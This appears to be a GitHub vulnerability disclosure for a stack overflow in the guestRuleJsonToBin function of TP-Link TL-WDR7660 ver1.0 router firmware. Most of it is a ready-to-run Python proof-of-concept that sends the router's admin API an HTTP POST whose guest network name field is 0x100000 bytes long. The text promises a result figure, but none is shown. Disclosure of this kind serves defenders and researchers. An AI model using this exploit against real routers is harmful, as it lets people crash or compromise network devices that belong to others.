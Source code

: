 **A stack overflow vulnerability exists in TL-WDR7660 version: TL-WDR7660 ver1.0**
The guestRuleJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.

**Exploit a vulnerability in the guestRuleJsonToBin function by sending a carefully constructed HTTP request**
```
url = "http://192.168.1.1/stok=B*qqlvYTn(bVsXtuytGm%2B0%5EP3nOE0dF~/ds " #COOKIE需要对应捕获
# 请求头
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# 请求体--漏洞利用json
data = {"guest_network":{"name":"a"*0x100000,"table":"guest_rule_2g","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"name","start_time":"01%3A00","end_time":"02%3A00"}},"method":"add"}# 发送POST请求
response = requests.post(url, headers=headers, json=data)
# 输出响应内容
print(response.text)
```

**The following figure shows the result**

